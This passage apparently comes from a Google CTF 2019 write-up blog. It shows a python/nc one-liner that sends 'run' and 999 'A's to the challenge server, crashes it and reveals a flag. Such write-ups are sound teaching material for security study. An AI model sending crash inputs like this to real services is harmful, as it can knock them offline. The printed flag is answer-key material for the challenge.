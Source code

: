 This clearly crashes the program! So let's try the same thing on official server but with a little help from python to automate our input:
```
$python2 -c "print 'run';print 'A'*999" | nc buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
 Bonus flag for controlling the crash.

Console commands:
run
quit
>>Inputs: run
CTF{Why_does_cauliflower_threaten_us}
Cauliflower systems never crash >>
segfault detected! ***CRASH***
Console commands:
run
quit
>>
```

Here we got the next flag! So doing this we finally come to the end of this route that we had taken. Let's go back to the other route now in the [next part](/2019/06/29/Google-CTF-Writeups-Part-2.html)!